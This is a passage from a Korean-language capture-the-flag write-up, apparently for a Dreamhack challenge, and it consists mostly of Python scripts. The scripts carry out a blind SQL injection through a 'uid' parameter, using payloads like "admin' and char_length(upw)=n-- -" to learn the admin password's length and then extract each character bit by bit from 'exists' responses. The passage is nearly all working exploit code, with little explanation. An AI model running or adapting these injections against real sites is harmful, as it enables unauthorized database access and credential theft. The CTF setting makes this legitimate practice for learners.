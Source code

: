 ```python
    print(password_len)
# 패스워드 길이 알아냄.

flag=""
for i in range(1,password_len+1):
    bit_len=0
    while True:
        bit_len+=1
        query= f"admin' and length(bin(ord(substr(upw,{i},1))))={bit_len}-- -"
        url=f'{host}/?uid={query}'
        response=requests.get(url)
        if "exists" in response.text :
            break
    print(bit_len)
    # 비트 길이 알아냈음.
```

이제 비트 길이를 알아냈으므로 패스워드의 i번째 글자의 각 비트를 알아낼 수 있다. i번째 글자의 각 비트는 1아니면 0이므로 i번째 글자의 각 비트가 1인지 검사해서 비트를 알아낸다.

```python
import requests

password_len=0
host="http://host3.dreamhack.games:19347"

while True:
    password_len+=1
    query=f"admin' and char_length(upw) = {password_len}-- -"
    url=f'{host}/?uid={query}'
    response=requests.get(url)
  
    if "exists" in response.text :
        break
    print(password_len)
# 패스워드 길이 알아냄.

flag=""
for i in range(1,password_len+1):
    bit_len=0
    while True:
        bit_len+=1
        query= f"admin' and length(bin(ord(substr(upw,{i},1))))={bit_len}-- -"
        url=f'{host}/?uid={query}'
        response=requests.get(url)
        if "exists" in response.text :
            break
    print(bit_len)
    # 비트 길이 알아냈음.
    bits=""
    for j in range(1,bit_len+1):
        query=f"admin' and substr(bin(ord(substr(upw,{i},1))),{j},1)='1'-- -"
        url=f'{host}/?uid={query}'
        response=requests.get(url)
        if "exists" in response.text :
            bits=bits+"1"
        else:
            bits=bits+"0"
    print(bits)
    #비트 알아냈음.
```
